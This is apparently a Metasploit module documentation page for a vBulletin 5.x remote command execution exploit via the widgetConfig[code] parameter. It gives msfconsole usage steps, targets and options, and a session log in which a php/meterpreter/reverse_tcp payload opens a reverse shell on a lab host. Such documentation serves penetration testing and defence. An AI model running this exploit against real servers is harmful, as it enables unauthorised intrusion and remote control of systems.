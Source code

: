 ## Vulnerable Application

vBulletin 5.x through 5.5.4 allows remote command execution via the `widgetConfig[code]` parameter in an `ajax/render/widget_php` `routestring` `POST` request.

## Verification Steps

1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/vbulletin_widgetconfig_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set LHOST [IP]`
6. Do: `run`

### Targets

```
  Id  Name
  --  ----
  0   Automatic (Dropper)
  1   Linux (Stager)
  2   Windows (Stager)
  3   Unix (In-Memory)
  4   Windows (In-Memory)
```

## Options

**PHP_CMD**

Specify the PHP function in which you want execute the payload. Default: `shell_exec`

**TARGETURI**

The base URI path of vBulletin. Default: /

### Advanced Options

**ForceExploit**

Override check result.

## Scenarios

A proof of concept was originally published on [seclist.org](https://seclists.org/fulldisclosure/2019/Sep/31).

```
msf exploit(multi/http/vbulletin_widgetconfig_rce) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf exploit(multi/http/vbulletin_widgetconfig_rce) > set lhost 192.168.1.13
lhost => 192.168.1.13
msf exploit(multi/http/vbulletin_widgetconfig_rce) > run

[*] Started reverse TCP handler on 192.168.1.13:4444 
[*] Sending php/meterpreter/reverse_tcp command payload
[*] Sending stage (38288 bytes) to 192.168.1.25
[*] Meterpreter session 1 opened (192.168.1.13:4444 -> 192.168.1.25:35772) at 2019-10-18 13:53:39 +0400

meterpreter > 
```
